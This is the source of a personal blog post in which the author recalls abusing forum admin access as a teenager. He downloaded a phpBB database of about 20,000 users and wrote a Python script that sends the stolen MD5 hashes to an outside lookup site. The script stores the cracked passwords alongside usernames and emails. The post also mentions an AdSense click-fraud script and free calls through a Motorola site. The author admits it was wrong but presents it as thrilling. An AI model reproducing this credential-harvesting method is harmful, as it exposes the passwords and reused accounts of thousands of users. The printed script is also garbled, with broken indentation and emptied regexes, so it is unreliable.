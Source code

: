 ```yaml
---
layout: post
title: Ensuciándome las manos en 2004
categories: [programming]
published: False
featured: False
date: 2012-09-17
category: Personal
markdown: markdown
image: /images/uploads/posts/hands-dirty/security_cameras.jpg
excerpt: En 2004, entre clases de instituto y noches de Age of Empires, me topé con una base de datos de 20.000 usuarios con contraseñas MD5.
---
```

If I’m curious now, I was even more with 14 or 15 years old. It was the time when I got bored of my cheap C book and started learning Python with online tutorials. I spent so much time on IRC also, mostly in programming channels (although I almost only talked in those dedicated to Age Of Empires). I met some people doing much more funny things that what I was doing. A group of friends created a script to auto-click on adsense banners. The group was private, but I was invited. All of us had a personal blog, so we used the script to click once on each adsense banner every day, so at least we got 8 or 9 clicks a day. Not much, but It helped me buying a better computer (Athlon 3400+, from a P3 866Mhz) by the end of 2004 I think.

Ah, they also got access to a private site from Motorola where we could make free mobile calls, but it only lasted a couple of weeks until they noticed. I remember calling a irc-friend to Puerto Rico and talking with his confused mother…

In one of those channels I met a guy running a big website that it’s still running. In it’s first months, the site had more than 20.000 registered users, and don’t ask me why, he thought it would be great that I helped him managing the forums, so he gave me admin privileges. I went directly to the backups panel, looking for the users database. In less than 2 minutes a ~20Mb file was being downloaded with the first real SQL code I had saw.

When I tried to open it with gedit, my computer froze. I got more luck with vim, but I hated those shell-based text editors. The file was full of entries like this (real copy-paste from original):

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}

Obviously I have replaced the username and mail address. There were more than 20.000 entries like that in that file. Passwords were encrypted with MD5, but I knew some online tools like gdataonline (now offline) that could help me finding out the original password. This kind of sites have a huge dictionary of words and common passwords with their corresponding hashes. You search the hash, and get the original string back.

The best thing about gdataonline is that it accepted data via GET and gave the output via XML… That was just perfect for what I had in mind. What if I made a Python script to send the password hashes to gdataonline, and store the successful passwords with their usernames and mail addresses? Since many users use the same password for everything, I would have a really dangerous material. And that was exciting.

First, I made a simple script to split the huge file in 100 parts, so each file would have 200 entries. This had two purpouses:

* The idea of reading and parsing a 20Mb file in python on my slow pc didn’t attract me
* I didn't want to send 20.000 request to gdataonline

I could have got all the (username, mail, hash) tuples with a simple SELECT in SQL, and parse the received XML with pyXML. But I didn’t even consider it, I liked it the hard way, the only way I knew. So after some hours of coding, I got this:

{% highlight python %}
#!/usr/bin/env python
 # -*- coding: iso-8859-15 -*-
 import re
 import urllib
 import os

 def getPasswords():
   successful_passwords = 0
   num = 1

   file = r"inputFile001" #Change this for every file
   text = open(file, "r")
   content = text.read()
   text.close()
   user = re.findall("VALUES.*?;", content)

   output_file = r"outputFile001" #Change this for every file
   foo = open(output_file, "w")

   spaces = " "*32
   foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
   foo.write('-' * 90 + "\r")

   for i in user:
     nickname = i.split()[2].strip(",").strip("'")
     mail = i.split()[39].strip(",").strip("'")

     f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" % i.split()[3].strip(",").strip("'"))
     xml = f.read()
     passwords = re.findall(".*?", xml)

     if passwords: # If we get the original
    password = passwords[0].split("").pop().split("")[0]
         successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

     os.system("clear")
     print "Total: %i" % len(user)
     print "Analized: %i" % num
     print "Found: %i" % successful_passwords

     num += 1

   foo.close()
   print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Tachan! Probably not the most beautiful, organized, well documented, optimized or fast code you have seen, but you can imagine what I felt when I opened my just created file (obviously I changed data)…

|**Nickname**|**Password**|**Mail**|
|john|mylove_1234|johny_the_cool@hotmail.com|
|mike|kansas70000|the_big_boy@yahoo.com|
|admin|lalalalaImDaAdmin|admin@thissite.com|
|....|....|....|

I got  ~30% of passwords revealed, 60 passwords per file, 6000 passwords in total.

This was the time I realised how funny and useful programming could be. I didn’t have any other intention that doing something to get a real result, no more ordering lists or math problems. It felt good, I knew that what I had done wasn’t right, and probably was illegal, but it gave me the satisfaction I needed to keep learning, with more enthusiasm than ever.